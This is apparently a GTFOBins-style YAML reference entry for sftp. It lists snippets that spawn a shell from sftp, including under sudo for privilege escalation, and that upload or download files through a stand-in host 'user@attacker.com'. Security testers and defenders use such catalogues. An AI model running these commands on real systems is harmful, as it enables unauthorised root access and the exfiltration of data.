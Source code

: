 ```yaml
---
functions:
  execute-interactive:
    - code: |
        HOST=user@attacker.com
        sftp $HOST
        !/bin/sh
  sudo-enabled:
    - code: |
        HOST=user@attacker.com
        sudo sftp $HOST
        !/bin/sh
  upload:
    - description: Send local file to a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        put file_to_send where_to_save
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        get file_to_get where_to_save
---
```

